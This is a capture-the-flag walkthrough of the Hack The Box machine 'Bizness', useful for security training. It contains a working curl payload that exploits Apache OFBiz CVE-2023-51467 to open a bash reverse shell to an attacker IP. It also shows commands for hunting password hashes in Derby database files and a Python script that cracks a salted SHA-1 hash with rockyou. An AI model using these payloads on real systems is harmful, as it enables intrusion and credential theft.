






## MACHINE INFO

> **[Bizness](https://app.hackthebox.com/machines/Bizness)** is an easy linux machine which leverages a CVE on `Apache OFBiz` to gain the initial foothold. To escalate privileges we search for hashes in derby database files and decrypt them to get the root password. 

## Enumeration

Perform a basic nmap scan to identify the open ports and services running on them.

```shell
sudo nmap 10.10.11.252 -sCV -p- --min-rate 10000      
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-18 12:46 EAT
Warning: 10.10.11.252 giving up on port because retransmission cap hit (10).
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.34s latency).
Not shown: 33655 closed tcp ports (reset), 31877 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e21d5dc2e61eb8fa63b242ab71c05d3 (RSA)
|   256 3911423f0c250008d72f1b51e0439d85 (ECDSA)
|_  256 b06fa00a9edfb17a497886b23540ec95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
|_http-trane-info: Problem with XML parsing of /evox/about
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.83 seconds

```

We add the ip to our hosts file 
```
sudo nano /etc/hosts
```

Then proceed to load the website.  



The website does not contain a lot of information, so we use ffuf to find hidden directories. 

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u https://bizness.htb/FUZZ -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://bizness.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

#                       [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 2970ms]
# Copyright 2007 James Fisher [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 3316ms]
#                       [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 5036ms]
# directory-list-2.3-small.txt [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 5061ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 3088ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 2768ms]
# This work is licensed under the Creative Commons [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 3094ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 2928ms]
# on at least 3 different hosts [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 3108ms]
#                       [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 2722ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 2913ms]
#                       [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 2923ms]
# Priority-ordered case-sensitive list, where entries were found [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 522ms]
                        [Status: 200, Size: 27200, Words: 9218, Lines: 523, Duration: 671ms]
control                 [Status: 200, Size: 34633, Words: 10468, Lines: 492, Duration: 344ms]
```

We find a directory called control but it appears to be a dead end. We use ffuf again to find if the directory has other hidden directories within it. 



```shell
$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u https://bizness.htb/control/FUZZ -fw 10468

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://bizness.htb/control/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 10468
________________________________________________

login                   [Status: 200, Size: 11060, Words: 1236, Lines: 186, Duration: 5176ms]
help                    [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 5022ms]
main                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 4117ms]
view                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 583ms]
```

The underlying Apache OFBiz version of the logi page is 18.12. This version is susceptible to a command injection vulnerability documented under CVE-2023-51467 (https://vulncheck.com/blog/ofbiz-cve-2023-51467). 



we craft our payload to get a reverse shell as stated in this [Article]((https://vulncheck.com/blog/ofbiz-cve-2023-51467))

```shell
curl -kv -H "Host: bizness.htb" -d "groovyProgram=x=new String[3];x[0]='bash';x[1]='-c';x[2]='bash -i >%26 /dev/tcp/10.10.16.35:4444 0>%261;';x.execute();" "https://bizness.htb/webtools/control/ProgramExport/?requirePasswordChange=Y&PASSWORD=lobster&USERNAME=albino"
```

Running the curl request we gain the initial foothold 

```shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.35] from (UNKNOWN) [10.10.11.252] 39332
bash: cannot set terminal process group (719): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ 
```

After running linpeas we get some interesting derby database files 


The files are stored in the following directory.
```
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/log$ ls
ls
log31.dat  log34.dat  log37.dat  log40.dat       README_DO_NOT_TOUCH_FILES.txt
log32.dat  log35.dat  log38.dat  log.ctrl
log33.dat  log36.dat  log39.dat  logmirror.ctrl

```
We compile all the .dat files together.

```shell
find / -name '*.dat' -type f 2>/dev/null > /tmp/aaa
```

Searching for SHA strings in the compiled file we come across this

```shell
ofbiz@bizness:/tmp$ cat aaa | xargs strings | grep SHA
cat aaa | xargs strings | grep SHA
strings: /var/cache/debconf/passwords.dat: Permission denied
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
SHA-256
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
MARSHALL ISLANDS
SHA-256
SHA-256
```
We have a sha1 salted hash

> The $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I contains 3 parts
> * $SHA$ indicates the algorithm used (SHA-1).
> * $d is a parameter or iteration count.
> * $uP0_QaVBpDWFeo8-dRzDqRwXQ2I is the salt which we will be decoding

To crack this with hashcat we first need to decode it and convert it to hex. Let's do that with cyberchef.




This is the hash we will be cracking
```
b8fd3f41a541a435857a8f3e751cc3a91c174362:d
```
We used the following python code to crack the hash.
```
import hashlib
import base64
import os

hash_type = "SHA1"
salt = "d"
result = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'

def SHA1(salt, plain_text):
    hash = hashlib.new(hash_type)
    hash.update(salt.encode('utf-8'))
    hash.update(plain_text.encode('utf-8'))
    encrypted_bytes = hash.digest()
    encrypted_text  = base64.urlsafe_b64encode(encrypted_bytes).decode('utf-8').replace('+', '.')
    result = f"$SHA1$d${encrypted_text}"
    return result

with open(wordlist, 'r', encoding='latin-1') as f:
    passwords = f.readlines()
    for password in passwords:
        match = SHA1(salt, password.strip())
        if match == result:
            print(f"Password found: {password}")
            break
```

After running the code, we were able to crack the hash, obtain the password and successfully escalate as root!


